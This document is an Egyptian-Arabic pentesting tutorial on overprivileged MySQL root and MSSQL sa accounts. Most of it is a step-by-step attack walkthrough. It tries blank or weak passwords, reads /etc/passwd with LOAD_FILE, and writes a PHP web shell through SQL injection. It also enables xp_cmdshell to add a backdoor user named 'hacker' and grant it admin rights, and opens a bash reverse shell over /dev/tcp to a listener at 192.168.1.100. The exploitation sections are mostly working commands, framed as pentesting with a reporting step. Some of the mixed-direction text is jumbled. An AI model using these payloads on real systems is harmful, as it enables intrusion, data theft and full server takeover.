 # **1. إيه هو Overprivileged Database Users (root, sa)؟**

## **الشرح العميق:**
"Overprivileged Database Users" يعني إن مستخدمين قاعدة البيانات (زي "root" في MySQL أو "sa" في MSSQL) عندهم صلاحيات زيادة عن اللازم، يعني بيسمحوله يعملوا أكتر مما المفروض يحتاجوه لشغلهم. في العادي، المستخدمين دول بيكونوا Admins لقاعدة البيانات، لكن المشكلة لما يتسابوا مفتوحين أو يتستخدموا في تطبيقات الويب من غير ما يتحددوا صلاحياتهم صح.

- **root (في MySQL/PostgreSQL):** المستخدم الافتراضي بتاع قاعدة البيانات في لينكس، عنده كل الصلاحيات: يشوف، يعدل، يمسح، وينفذ أوامر على النظام لو السيرفر مضبوط غلط.
- **sa (في MSSQL):** المستخدم الافتراضي في Microsoft SQL Server، بيديه تحكم كامل في قاعدة البيانات، وممكن ينفذ أوامر على النظام لو مفعل XP_CMDSHELL.

لو التطبيق بيتصل بقاعدة البيانات باستخدام المستخدمين دول بدون قيود، المهاجم لو لقى ثغرة (زي SQL Injection) يقدر يستغلهم عشان يتحكم في كل حاجة.

## طرق اكتشافها :
### 1. **فحص مستخدم MySQL:**
   - لو وصلت لـ Shell:
     -  `mysql -u root -p` ->  مفتوح root لو دخلت من غير كلمة سر، يبقى  .
   -  `SHOW GRANTS;` ->    يعني صلاحيات مفتوحة.`GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' WITH GRANT OPTION` لو رجع،

### 2. **فحص مستخدم sa في MSSQL:**
   - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
   - لو دخلت، شغل:
     -ء `SELECT IS_SRVROLEMEMBER('sysadmin', 'sa');` -> لو رجع `1`، يعني sa هو الأدمن.

### 3. **فحص من الويب:**
   - لو لقيت config.php مكشوف:
     - ء `cat /var/www/html/config.php` -> `$db_user = "root"; $db_pass = "";`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب البواب بتاع العمارة يتحكم في كل الأدوار بدل ما يفتح الباب بس! root وsa دول زي الباشا بتاع قاعدة البيانات، لو مسكتهم، بقيت الكبير بتاع كل حاجة."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
المستخدمين دول خطيرين لأنهم بيدوك التحكم الكامل في قاعدة البيانات، وأحيانًا في السيرفر نفسه لو فيه إعدادات ضعيفة. لو المهاجم قدر يوصلهم:
- **سرقة بيانات:** يشوف كل الجداول (زي بيانات العملاء أو كلمات السر).
- **تعديل أو تدمير:** يمسح قاعدة البيانات أو يغير فيها.
- **تصعيد صلاحيات:** ينفذ أوامر على النظام (زي كتابة ملفات أو فتح Shell).

في الـ Pentesting، لو لقيت إن التطبيق بيستخدم root أو sa بصلاحيات مفتوحة، ده بيكون كنز لأنه بيفتحلك كل الأبواب.

## طرق استغلالها لو لقتها :
### 1. **استغلال root في MySQL:**
   - لو وصلت لـ MySQL كـ root:
     -  ء`SELECT LOAD_FILE('/etc/passwd');` -> لو نجح، يعني تقدر تقرا ملفات النظام.
     -  ء` SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';` -> تكتب Shell.

### 2. **استغلال sa في MSSQL:**
   - لو وصلت كـ sa:
     - `EXEC sp_configure 'show advanced options', 1; RECONFIGURE;`.
     - `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`.
     - `EXEC xp_cmdshell 'whoami';` ->   يبقى سيطرت على السيرفر nt authority\system لو رجع `،

### 3. **SQL Injection للوصول:**
   - لو موقع فيه ثغرة:
     - `http://target.com/user?id=1; SELECT USER(); --` ->root.  يبقى التطبيق بيستخدم`root@localhost`لو رجع 

## **خلاصة بالعامية المصرية:**
"المستخدمين دول زي ما تكون سايب مفتاح العربية لأي حد، لو مسكوه، هياخدوا العربية كلها! خطيرين لأنهم بيدوك كل حاجة، من البيانات لحد السيرفر نفسه."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الصلاحيات الزيادة دي عشان تاخد وصول أعلى أو تتحكم في النظام كله.
- **مثال واقعي:** لو لقيت إن تطبيق ويب بيستخدم root في MySQL، تقدر تكتب ملف Shell وتتصل بالسيرفر.

## **خلاصة بالعامية المصرية:**
"لما تلاقي root أو sa مفتوحين، زي ما تكون لقيت مفتاح السكة الحديد! بتستغلهم عشان تفتح كل الأبواب وتبقى الكبير بتاع اللعبة."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 3306: MySQL 5.7 (لينكس).
  - Port 1433: MSSQL (ويندوز).

## **الخطوة 2: البحث عن الوصول**
- في لينكس:
  - `mysql -u root -p -h 192.168.1.10` -> "root" جرب بدون كلمة سر أو.
- في ويندوز:
  - `sqlcmd -S 192.168.1.10 -U sa -P "sa"` -> "admin" جرب كلمات سر ضعيفة زي .

## **الخطوة 3: استغلال عبر الويب**
- لو موقع فيه SQL Injection:
  - `http://192.168.1.10/user?id=1; SELECT USER(); --`.
  - لو رجع `root@localhost` أو `sa`:
    - MySQL: `http://192.168.1.10/user?id=1; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'; --`.
    -  MSSQL: `http://192.168.1.10/user?id=1; EXEC xp_cmdshell 'net user hacker pass123 /add'; --`.

## **الخطوة 4: التحقق والتصعيد**
- في MySQL:
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> لو رجع `www-data`:
    - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
    - `nc -lvnp 4444` -> Shell.
- في MSSQL:
  - لو نجح الأمر، ادخل كـ `hacker` وشوف:
    -  ء`whoami` -> لو `system`، نجحت.

## **الخطوة 5: تصعيد كامل**
- في لينكس:
  - من الـ Shell: `id` -> `www-data` -> `sudo -l` -> لو لقيت شيء، استغله.
- في ويندوز:
  -  `net localgroup administrators hacker /add` -> تصعد لأدمن.

## **الخطوة 6: توثيق**
- سجل إنك لقيت root/sa مفتوحين.
- قدم تقرير يوضح إزاي استخدمتهم للوصول للنظام.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مفتاح القصر، فتحته، لعبته فيه، وطلعت الكبير بتاع الحتة! root وsa لما يكونوا مفتوحين، يبقوا طريقك للنصر في اللعبة."

---

# **الخلاصة النهائية:**
Overprivileged Database Users زي root وsa هما ثغرة كبيرة لأنهم بيدوك تحكم كامل في قاعدة البيانات وأحيانًا السيرفر. في الـ Pentesting، دور عليهم في الإعدادات أو استغلهم من ثغرات زي SQL Injection، واستخدمهم عشان تاخد Shell أو تصعد صلاحياتك. وري العميل إن النظام بتاعه زي بيت من غير حراس لو سيب المستخدمين دول مفتوحين! بالأدوات دي، تبقى البطل بتاع الساحة!
